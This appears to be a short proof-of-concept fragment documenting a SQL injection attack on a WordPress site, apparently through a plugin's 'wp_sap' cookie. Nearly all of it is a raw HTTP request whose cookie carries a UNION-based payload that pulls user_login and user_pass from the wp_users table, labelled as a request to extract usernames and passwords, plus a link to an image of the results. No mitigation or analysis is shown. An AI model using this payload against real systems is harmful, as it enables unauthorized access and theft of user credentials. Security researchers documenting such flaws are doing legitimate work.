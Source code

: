 **Request to extract username and password**
```
GET / HTTP/1.1
Host: sandbox.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wp_sap=["1650149780')) OR 1=1 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,(SELECT concat(user_login,':',user_pass) from wp_users),11#"]
Upgrade-Insecure-Requests
```

**Extracts from injection**
![[sqli-extract.png]]